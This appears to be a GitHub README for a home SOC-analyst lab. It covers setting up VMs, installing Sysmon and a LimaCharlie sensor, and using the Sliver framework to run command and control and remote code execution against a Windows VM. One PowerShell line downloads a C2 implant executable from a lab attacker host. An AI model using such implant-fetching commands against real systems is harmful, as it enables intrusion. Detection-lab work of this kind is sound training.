 # SOC-Analyst

## Set up VMs environment
- I set up 2 VMs, one is Ubuntu Server 22.04, the other is Windows 10 Desktop
- After setting up completely, I install sysmon in Windows 10 VM by this following Powershell script steps
1. Download Sysmon
```powershell
Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip
```
2. Unzip Sysmon.zip
```powershell
Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon
```
## Start to attack
- I use LimaCharlie (a SecOps cloud platform)
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/bdce3c63-38eb-42a6-81f6-626cfc5138e1)
- Follow these steps, and I reach this. It successfully creates the sensor
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/a9985c93-978d-4c3a-83d8-5d23d9e3f49b)
- Add rules to LimaCharlie
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/c60a1a58-90f5-49e8-9fc8-57e6c32b2feb)
- Use Sliver to perform Command and Control 
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/ed2188db-ed14-4deb-ba1e-04fbe77b4733)
- Download Command and Control file to Windows by this command
```powershell
IWR -Uri http://192.168.159.100/NORMAL_PUDDING.exe -Outfile C:\Users\hoang\Downloads\NORMAL_PUDDING.exe
```
- After running C2 on Windows VM, on Ubuntu Server, I see this
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/33fc3013-56ff-4faf-8156-b509c7033f27)
- Perform RCE
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/6335a1a3-c0a5-4ee5-aa38-a7144931a26d)








